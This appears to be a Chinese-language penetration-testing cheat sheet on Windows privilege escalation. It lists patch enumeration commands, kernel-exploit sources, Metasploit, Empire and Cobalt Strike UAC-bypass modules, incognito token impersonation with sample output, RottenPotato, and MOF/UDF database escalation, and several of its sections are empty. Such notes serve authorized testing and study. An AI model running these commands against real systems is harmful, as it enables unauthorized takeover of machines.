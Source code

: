 [参考指南](https://cloud.tencent.com/developer/article/1771226)

## 系统内核溢出提权

查看系统补丁

```
#手工查找补丁
systeminfo
Wmic qfe get Caption,Description,HotFixID,InstalledOn

#MSF后渗透扫描
post/windows/gather/enum_patches 
post/multi/recon/local_exploit_suggester

#Windows exploit suggester
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
https://github.com/jondonas/linux-exploit-suggester-2

#powershell中的sherlock脚本 
Import-Module C:\Sherlock.ps1 #下载ps1脚本，导入模块 
Find-AllVulns 

#Empire内置模块 Empire框架也提供了关于内核溢出漏洞提权的漏洞利用方法 
usemodule privesc/powerup/allchecks 
execute
```
查找到缺失的补丁后，对照相应的系统版本，查找对应的exp
```
https://github.com/SecWiki/windows-kernel-exploits 
https://bugs.hacking8.com/tiquan/ https://github.com/Heptagrams/Heptagram/tree/master/Windows/Elevation https://www.exploit-db.com/ 
https://i.hacking8.com/tiquan/
```
## 系统配置错误提权






## 组策略首选项提权






## BypassUAC提权

UAC通过阻止程序执行任何涉及有关系统更改/特定任务的任务来运行。除非尝试执行这些操作的进程以管理员权限运行，否则这些操作将无法运行。如果您以管理员身份运行程序，则它将具有更多权限，因为它将被“提升权限”，而不是以管理员身份运行的程序。
```
#Msf 
exploit/windows/local/ask #弹出UAC确认窗口，点击后获得system权限 exploit/windows/local/bypassuac #此模块将通过进程注入使用可信任发布者证书绕过Windows UAC，它将生成关闭UAC标志的第二个shell。 
exploit/windows/local/bypassuac_injection #此模块将通过进程注入使用可信任的发布者证书绕过Windows UAC。它将生成关闭UAC标志的第二个shell。在普通技术中，该模块使用反射式DLL注入技术并只除去了DLL payload 二进制文件，而不是三个单独的二进制文件。但是，它需要选择正确的体系架构（对于SYSWOW64系统也使用x64）。如果指定exe::custom，应在单独的进程中启动 payload 后调用ExitProcess（） 
exploit/windows/local/bypassuac_fodhelper#此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows fodhelper.exe应用程序时调用的自定义命令来绕过Windows 10 UAC。它将生成关闭UAC标志的第二个shell。此模块修改注册表项，但在调用payload后将清除该项。该模块不需要payload的体系架构和操作系统匹配。如果指定exe:custom，则应在单独的进程中启动payload后调用ExitProcess（）。 
exploit/windows/local/bypassuac_eventvwr#此模块将通过在当前用户配置单元下劫持注册表中的特殊键并插入将在启动Windows事件查看器时调用的自定义命令来绕过Windows UAC。它将生成关闭UAC标志的第二个shell。此模块修改注册表项，但在调用payload后将清除该项。该模块不需要payload的体系架构和操作系统匹配。如果指定EXE ::Custom，则应在单独的进程中启动payload后调用ExitProcess（） exploit/windows/local/bypassuac_comhijack#此模块将通过在hkcu配置单元中创建COM处理程序注册表项来绕过Windows UAC。当加载某些较高完整性级别进程时，会引用这些注册表项，从而导致进程加载用户控制的DLL,这些DLL包含导致会话权限提升的payload。此模块修改注册表项，但在调用payload后将清除该项,这个模块需要payload的体系架构和操作系统匹配，但是当前的低权限meterpreter会话体系架构中可能不同。如果指定exe:：custom，则应在单独的进程中启动payloa后调用ExitProcess（）。此模块通过目标上的cmd.exe调用目标二进制文件,因此，如果cmd.exe访问受到限制，此模块将无法正常运行。 

#Powershell 
Invoke-PsUACme 

#Empire 
usemodule privesc/bypassuac 
usemodule privesc/bypassuac_wscript 

#cs 
uac-dll 
uac-token-duplication 

```
## 令牌窃取

```
#MSF
use incognito #进入incognito模块 
list_tokens -u #列出令牌
Delegation Tokens Available #也就是授权令牌，它支持交互式登录(例如可以通过远程桌面登录访问)
========================================
GOD\Administrator
NT AUTHORITY\SYSTEM

Impersonation Tokens Available #模拟令牌，它是非交互的会话
========================================
No tokens available

#使用令牌假冒用户 
impersonate_token "NT AUTHORITY\SYSTEM"

# Rotten Potato 本地提权
https://link.zhihu.com/?target=https%3A//github.com/breenmachine/RottenPotatoNG
运行 RottenPotato.exe 直接弹出 SYSTEM 权限的 CMD 窗口，不需要用到 MSF
```

## 数据库提权

### MOF提权
MOF文件是mysql数据库的扩展文件（在c:/windows/system32/wbem/mof/nullevt.mof）叫做”托管对象格式”，其作用是每隔五秒就会去监控进程创建和死亡，因为MOF文件每五秒就会执行，且是系统权限，所以如果我们有权限替换原有的mof文件，就能获得system权限

### UDF提权
UDF,user defined funcion,即用户自定义函数，用户可以通过自己增加函数对mysql功能进行扩充，文件后缀为.dll


## 其他